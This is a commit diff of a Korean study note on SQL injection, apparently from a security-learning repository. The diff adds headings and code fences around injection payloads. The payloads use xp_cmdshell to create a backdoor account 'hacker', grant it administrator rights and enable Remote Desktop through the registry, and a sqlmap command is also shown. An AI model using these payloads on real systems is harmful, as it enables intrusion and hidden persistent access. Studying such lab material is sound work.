

Before and after one commit to moonimax/IOT-Security-Dev, a Markdown page: 데이터베이스/SQL INJECTION.md, 3 parts joined by grey strips. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/데이터베이스/SQL INJECTION.md
+++ b/데이터베이스/SQL INJECTION.md
@@ -219,11 +219,14 @@ python sqlmap.py -r 1.txt --dbs --dbms="Microsoft SQL Server 2005" -p keyword(
 
 
 
+---
 
-#### 백도어 계정 생성, 관리자 권한 몰래주기, RDP ON
+#### 8. 백도어 계정 생성, 관리자 권한 몰래주기, RDP ON
 
+```mysql
 '; exec master.dbo.xp_cmdshell 'net user hacker hacker /add'--
 '; exec master.dbo.xp_cmdshell 'net localgroup administrators hacker /add'--
+```
 
 ![](../Images/Pasted%20image%2020260730113320.png)
 ![](../Images/Pasted%20image%2020260730113532.png)
@@ -234,5 +237,8 @@ python sqlmap.py -r 1.txt --dbs --dbms="Microsoft SQL Server 2005" -p keyword(
 **원격 접속**
 
 원격 데스크탑 키는 명령어
+```mysql
 '; exec master.dbo.xp_cmdshell 'reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlset\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f'--
+```
+
 - reg 를 건드는 설정 값 데이터베이스
@@ -243,3 +250,5 @@ python sqlmap.py -r 1.txt --dbs --dbms="Microsoft SQL Server 2005" -p keyword(
 3. 생성한 `hacker` `hacker` 입력 후 접속
 
 ![](../Images/Pasted%20image%2020260730115248.png)
+
+>> 탈취 성공!
````
Also changed, not shown: other parts of 데이터베이스/SQL INJECTION.md (+2 -1 lines), 웹 취약점/DVWA.md (+6 -2 lines), Images/Pasted image 20260730122400.png (added), 1 other file.
